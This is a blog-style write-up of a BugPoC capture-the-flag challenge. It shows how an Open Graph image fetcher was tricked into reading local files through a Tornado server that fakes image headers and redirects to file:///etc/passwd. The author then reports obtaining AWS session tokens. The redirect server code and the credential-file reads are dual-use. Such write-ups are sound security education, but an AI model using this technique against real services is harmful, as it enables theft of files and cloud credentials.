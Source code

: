 ```yaml
---
layout: post
title:  "LFI Challenge Writeup"
date:   2020-10-06 11:25:10 +0545
author: machinexa
image: /writeups/assets/images/lfichallenge.jpeg
category: Writeups
---
```

<br>

## Description
Browsing Twitter I saw a new challenge from BugPoC which was about LFI I immediately started solving it. The image instructed me to visit [http://social.buggywebsite.com/](https://social.buggywebsite.com/) to start the challenge. Also, since it was a server-sided bug, I got energized to solve it. 

### Starting point
First of I had to find sink where i could execute LFI. I tried typing and it generated the option to share. Looking at the source code more, i find a compressed javascript file, it showed various functinons. After analyzing the code, I found out only request starting with `https` made an xhr request and to https://api.buggywebsite.com. It send json data with url and requestTime parameter.
```js
function processUrl(e) {
    requestTime = Date.now(), url = "https://api.buggywebsite.com/website-preview";
    var t = new XMLHttpRequest;
    t.onreadystatechange = function() {
        4 == t.readyState && 200 == t.status ? (response = JSON.parse(t.responseText), populateWebsitePreview(response)) : 4 == t.readyState && 200 != t.status && (console.log(t.responseText), document.getElementById("website-preview").style.display = "none")
    }, t.open("POST", url, !0), t.setRequestHeader("Content-Type", "application/json; charset=UTF-8"), t.setRequestHeader("Accept", "application/json"), data = {
        url: e,
        requestTime: requestTime
    }, t.send(JSON.stringify(data))
```

### Developing client
I had to write a client that interacts with API with those parameters filled with value. First, i found `get_second()` (a function to get current second) in StackOverflow answer. Then for url, I used input prompt on while loop. This is what a successful response looks like, and it also returns an image in base64 encoded form.   

![Response](/writeups/assets/images/lfichallenge_response.png)

I used the JSON module to parse the data then the content of the image is dumped to file. Here's my source code [Exploit.py](https://gist.github.com/machinexa2/118a7983b407cca55a6a1801a10acb7c); Now, I tried different kinds of stuff, ideas such as SSRF but it wasn't working. I later realized it was using urllib3 to make requests which could never result in LFI but only SSRF. SSRF was also not possible as it was not showing response and was probably blocked. Also, since the API wasn't vulnerable I looked for other endpoints etc but nothing seemed to work. Playing with it for some amount of time revealed something that I missed before.  

### Open Graph metadata
It was parsing the `<meta>` tags and reflecting them. OG is short for Open Graph which allows a web page to become a rich object in the social graph. It had a lot of tags and some tags that were being reflected were `og: description`, `og: type`, `og: image`, and `og.url`. Also, description, type, and url didn't have much effect on the server. However, the parser was again fetching resources from image tag and used urllib3 to fetch. Trying for SSRF again failed me and SSRF wasn't a solution to the challenge so I moved on.

Looking at a different perspective, I found the following details:
* It fetches similar to this `^https://.*\.(jpg|svg|png)$`
* Serving another file with extensions fails a HEAD request, parser checks by mimetype which can be bypassed
* Serving `.jpg` file with jpg or other image magic header, parser base64 encodes image and returns it

![Details](/writeups/assets/images/lfichallenge_details.png)

In above picture, first i editted `index.html` to fetch image and returned response size, then i used .html which gave error **Invalid Image Url**. At last, using `hi.html.jpg` gave error as shown in picture. I tried putting HTML, PHP, and other code in the jpeg mimetype file but it didn't work. I also tried using Exif tags for code execution which didn't work too. I was quite lost at these moments and those weird hints from BugPoC made me madder.  

### Hitting the jackpot
Since, HEAD request was used to verify whether its image or not, I coded in python3 to create a tornado server. I set content-type and other headers of image, and issued redirection by location header to file:///etc/passwd at second get request which should hopefully get us /etc/passwd. A small snippet shows how I coded it:   
```python
class FileHandler(tornado.web.RequestHandler):
    def head(self):
        self.set_header('Content-Length', 237)
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Location', 'http://fa0cf2d0f26e.ngrok.io//asset/original.jpg')
    def get(self):
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Location', 'file:///etc/motd')
        self.write("<p>You should be redirected automatically to target URL: <a href='file:///etc/passwd'>file:///etc/passwd</a>")
        self.redirect("file:///etc/motd")

class IndexHandler(tornado.web.RequestHandler):
    def head(self):
        self.set_header('Content-Length', 237)
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Cache-Control', 'public, max-age=0')
        self.set_header('Pragma', 'no-cache')
        self.redirect('/asset/original.jpg')
    def get(self):
        with open('index.html', 'rb') as f:
            self.write(f.read())
```
<br>
Now, let's host the malicious server, and get that file. Also, I rechanged a lot of my exploit.py code and other files to make it as easy to get the file. I hit the jackpot got the file!

![Pwned](/writeups/assets/images/lfichallenge_pwned.png)

# Changing the impact
This is incomplete writeup and maybe changed. So, some after trying some common files i got two tokens `AWS_SESSION_TOKEN` and `AWS_SECRET_ACCESS_KEY7`. AWS session key was long and covered with lot of slashes. This is the metadata of AWS they talked about. Thats it, I couldnt get any far.

## Takeaway 

* Always try harder, if I left when I failed SSRF, I couldn't have solved the challenge 
* Javascript files are a gold mine. Do always read them and try to find sensitive endpoints.
* Coding is essential to exploit development. Make sure you master at least a single programming language.

Some hints from BugPoC helped me but the last ones were absurd and meaningless. Also, I necessarily didnt have to code server and client. For the server, I could have used BugPoC mock endpoint and for a client, I could have used either burp or browser for testing purposes, the client is best!

